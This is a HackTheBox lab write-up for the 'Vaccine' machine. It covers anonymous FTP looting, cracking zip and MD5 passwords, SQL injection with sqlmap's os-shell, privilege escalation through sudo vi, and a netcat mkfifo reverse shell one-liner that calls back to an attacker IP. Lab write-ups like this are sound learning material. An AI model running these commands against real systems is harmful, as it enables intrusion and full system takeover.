 ## HTB Starting Point: Vaccine
Today I worked on a few of the starting point machines from HackTheBox, as I have decided to hang out over here more. I just wanted to work on some boxes without the hand holding I feel like TryHackMe does. I wanted to do something blindly here and figure it out on my own. That’s not to say anything bad about THM. I love it. It is a great site and I have learned a lot from it, but THM is for learning while HTB is for sharpening. It is the same thing just with the training wheels removed.
So, let us get started on the first of my HTB writeups I will start doing here. This is Vaccine, a standard webserver with some lite password cracking, automated SQL injection to gain a foothold, and a relatively quick privesc after the fact. 
 
### Recon
I began by quickly port scanning the server to see where I could get in. I found a few open ports like ftp (21), ssh (22), and http (80). However, the FTP caught my eye due to an accessible zip file which nmaps default script scan was able to catch.
   
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/nmap.jpg)
   
So, I accessed the ftp server as anonymous and was able to get the file onto my local machine. However, upon trying to access it, I found the zip was password protected. This is where this machine’s lite password cracking begins.  
I ran zip2john on the zip file and output the hash to a separate file which I could then run john on. 
  
```zip2john backup.zip > zip.hash```  
```john zip.hash```  
  
This gave me a password which I was able to use to unzip the backup.zip file. Contained inside were 2 files, index.php and style.css  
  
I figured these were files for the webserver but catted them out first to check. Turns out index.php had a username and password within. Though the password was hidden behind some md5. That’s easy enough to correct by using any number of tools. I like [CrackStation](https://www.crackstation.net)
  
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/index_cat.jpg)
  

After getting the username and password, it was time to go check out the website. 
 
I was greeted with a login page which gave me a chance to use the credentials. They worked
  
I found this lovely little page that appears to show a database of available models made by The MegaCorp Car Company.
  
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/cars.jpg)
  
Searching the catalog will change the URL to show you query in the URL. This seem like something that could be vulnerable to SQL injection. 
So, I decided to run sqlmap on it to see.  
``` sqlmap -u "http://10.129.95.174/dashboard.php?search=" --cookie="PHPSESSID="```  
  
This confirmed that the search was indeed vulnerable to SQLI via the UNION operator. So, I reran the command with the 
```--os-shell``` option to see if I could get a shell as the database user.   
  
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/oshell.jpg)
  
It worked! 
  
### Now to get a real shell. 
I decided to go over to [RevShellGenerator]( https://www.revshells.com/) to make a reverse shell that would work correctly. My go-to is the nc mkfifo option. Plugging in my machines IP and preferred port left me with this:

```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.100 6666 >/tmp/f```
   
After setting up my netcat listener and dropping the rev shell into my os-shell, I got a connection!  
  
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/revshell.jpg)
  
A quick shell upgrade with

```python3 -c 'import pty; pty.spawn("/bin/bash")'```  
  
### Now to search for a path to escalation. 
Note: I kept experiencing drops of my shell around this time. Sqlmap was unable to connect to the site and I would often lose my reverse shell. I think this was the HTB network, but I could always be wrong. If you have any ideas let me know! I chose to work fast through this inconvenience so pardon the lack of images past this point.
Normally I would pull over a script like linpeas.sh but the drops made me have to work manually. So I went through the file system looking for interesting files to work with. 
Running sudo -l required a password I didn’t have yet.
So, I checked:
/home  
/tmp   
/var/www/html  
In /var/www/html I ran  

```grep -I -R “pass”*```  

And found a cleartext password for the postgres user. Now let’s try ```sudo -l```
This let me know, before disconnecting again, that I could run vi as root. I know for a fact that there is an entry on [GTFObins]( https://gtfobins.github.io/) for that.
  
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/gtfobins.jpg)
  
I dropped connection again. So, I decided to go back in through ssh using the password I just found. It worked much better for me after that.
Ok. So now that I have a more stable shell, I can take more descriptive pictures
   
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/sudol.jpg)
  
```sudo -l``` showed me that I can use vi to privesc. A quick search on GTFObins gave me a few attack options. I tried to run ``` sudo vi -c ':!/bin/sh' /dev/null``` but it wasn’t getting me anywhere.

Then I tried the shell breakout methods. Method A didn’t work but method B did. 

First, I ran ```sudo vi /etc/postgresql/11/main/pg_hba.conf```

Then once vi opened I typed 
  
:set shell=/bin/sh
:shell
  
This gave me root!
  
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/root.jpg)
  
All that was left was to enter my flags on HTB. 
  
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/pwnd.jpg)

Thanks for reading!
